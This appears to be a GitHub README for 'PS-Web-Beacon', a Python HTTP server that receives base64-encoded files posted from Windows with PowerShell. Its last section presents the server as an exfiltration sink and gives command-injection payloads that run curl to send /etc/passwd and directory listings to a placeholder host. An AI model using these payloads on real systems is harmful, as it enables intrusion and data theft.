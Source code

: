 ## PS-Web-Beacon

A simple http server to transfer files from windows to any other machine. This method utilises PowerShell's IWR to send a base64 encoded file as post data to a python web server, the web server then saves the base64 decoded post data to a file

On origin machine

```
$b64 = [System.convert]::ToBase64String((Get-Content -Path '[FILE-PATH]' -Encoding Byte))
Invoke-WebRequest -Uri http://[<IP>]:[<PORT>] -Method POST -Body $b64
```

On destination

default port is 8000 and default output is stdout

```
./server.py [<output-file>] [<port>]
./server.py [<output-file>]
./server.py
```

This server can also be used to exfiltrate data in blind command injection or such

```
127.0.0.1;curl -X POST [<IP>]:[<PORT>] -d "$(base64 /etc/passwd)"
127.0.0.1;curl -X POST [<IP>]:[<PORT>] -d "$(ls -al | base64)"
```
